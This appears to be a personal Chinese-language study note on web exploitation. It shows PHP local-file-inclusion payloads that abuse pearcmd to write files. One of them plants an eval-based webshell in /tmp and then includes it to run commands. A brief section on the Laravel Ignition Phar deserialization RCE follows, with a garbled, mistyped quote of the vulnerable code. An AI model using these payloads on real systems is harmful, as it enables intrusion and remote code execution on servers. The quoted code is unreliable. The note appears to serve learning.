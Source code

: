   ![image-20240920164553604](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920164553604.png)

- 写`文件`-->shell.php

- ```php
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&<?=phpinfo()?>+/tmp/shell.php
  ```

  ![image-20240920164627490](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920164627490.png)

- 写`文件`-->shell123.php

- ```php
  ?lang=../../../../../../../../../tmp/shell123
  ```

<img src="C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920164729340.png" alt="image-20240920164729340" style="zoom:33%;" />

- 写`webshell`

- ```
  ?lang=../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=eval($_REQUEST['cmd']);?>+/tmp/cmd.php
  ```

<img src="C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920165016269.png" alt="image-20240920165016269" style="zoom:33%;" />

- 包含文件`连接shell`

- ```
  ?lang=../../../../../../../../../tmp/cmd&cmd=phpinfo();
  ```

<img src="C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920165206908.png" alt="image-20240920165206908" style="zoom:33%;" />

- 连接`shell`

<img src="C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920165342257.png" alt="image-20240920165342257" style="zoom:33%;" />

------

### Laravel漏洞

- 漏洞`原理`:当Laravel开启`Debug`模式时,由于其自带的`Ignition`组件对`flie_get_contents()`和`flie_put_contents()`函数的不安全使用,攻击者可以通过发送恶意请求,构造恶意log文件等方式触发`Phar`反序列化,最终造成`远程代码执行`

- 影响`版本`:Laravel < 8.4.2

- Laravel是一个由Taylor Otwell所创建，免费的开源 PHP Web 框架。在开发模式下，Laravel使用了lgnition提供的错
  误页面，在lgnition 2.5.1及之前的版本中，有类似这样的代码:

  ```php
  $contents = file get contents($parameters['viewFile',); file put contents($parameters['viewfile”, $contents);
  ```
